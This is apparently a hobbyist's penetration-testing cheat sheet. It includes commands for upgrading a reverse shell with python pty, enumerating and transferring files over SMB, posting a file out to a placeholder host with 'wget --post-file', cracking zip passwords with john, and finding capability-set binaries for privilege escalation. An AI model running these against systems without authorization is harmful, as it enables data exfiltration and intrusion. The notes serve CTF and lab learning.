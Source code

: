 1)) If you get a reverse shell you know what that's look like without meterpreter or something. If you want to get a stable,interactive bash shell and if python is supported, then

> python -c "import pty; pty.spawn('/bin/bash')"

2)) Sometimes i get confused with smbclient. So this note is for mine.

> smbclient -L $IP$or$domain$

> smbclient \\\\\\\\$IP$or$domain$\\\\share

For downloading a file from remote server,

> get file

For uploading a file to remote server,

> put file

3)) When sending a POST request using the ' --post-file ' option, Wget treats the file as a binary file and will send every character in the POST request without stripping trailing newline or formfeed characters. Any other control characters in the text will also be sent as-is in the POST request.

> wget --post-file=file_to_post $desIP$:$PORT$

4)) scp (secure copy) command in Linux system is used to copy file(s) between servers in a secure way. The SCP command or secure copy allows secure transferring of files in between the local host and the remote host or between two remote hosts.

> scp <user@ip>:file-location destination

5)) If you have a password protected zip file,then you can use our useful friend john.

> zip2john file.zip > file.hash

> john file.hash

6)) Suppose you have a image file. As you are a hacker, you know what's that.You can extract a file or message from that image file.You can use binwalk for 
extracting file and steghide or zsteg for message.

> binwalk file.png

> binwalk -e file.png

7)) I don't know why linux system doesn't actually take golang as their own.Every time i have to write the following command to poke the system.

> source ~/.profile

8)) To see if capabilities are set on files in linux system, 

> getcap -r / 2>/dev/null

9)) Sometime ssh command doesn't work. Below command might help,

> sudo ip link set dev tun0 mtu 1200

Changing the mtu can help, increasing it can improve performance, decreasing can help with packet loss.

